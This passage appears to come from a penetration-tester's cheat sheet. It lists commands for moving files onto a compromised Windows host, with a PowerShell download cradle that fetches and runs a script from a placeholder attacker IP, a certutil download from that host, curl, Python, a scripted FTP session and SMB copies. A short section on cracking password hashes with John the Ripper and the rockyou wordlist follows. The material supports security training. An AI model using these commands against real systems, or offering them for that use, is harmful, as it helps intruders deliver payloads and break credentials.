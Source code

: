 #### Powershell

```
IEX(New-Object Net.WebClient).downloadString("http://<IP_ATTACK>/<SHARED>")
```

#### Certutil

```
certutil.exe -f -split -urlcache "http://<IP_ATTACK>/<SHARED>"
```

#### curl

```
curl <URL> -o <OUT_FILE>
```

#### Python

```
python.exe -c "from urllib import urlretrieve; urlretrieve('<URL>', '<DESTINATION_FILE>')"
```

# FTP

```
echo open <IP> 21 > ftp.txt
echo anonymous>> ftp.txt
echo password>> ftp.txt
echo binary>> ftp.txt
echo GET <FILE> >> ftp.txt
echo bye>> ftp.txt

ftp -v -n -s:ftp.txt
```

# SMB

```
copy \\<IP>\<PATH>\<FILE> # Linux -> Windows
copy <FILE> \\<IP>\<PATH>\ # Windows -> Linux
```

-----

# Cracking

## JohnTheRipper

Cracking hash

```
john --wordlist=/usr/share/wordlist/rockyou.txt hash
```
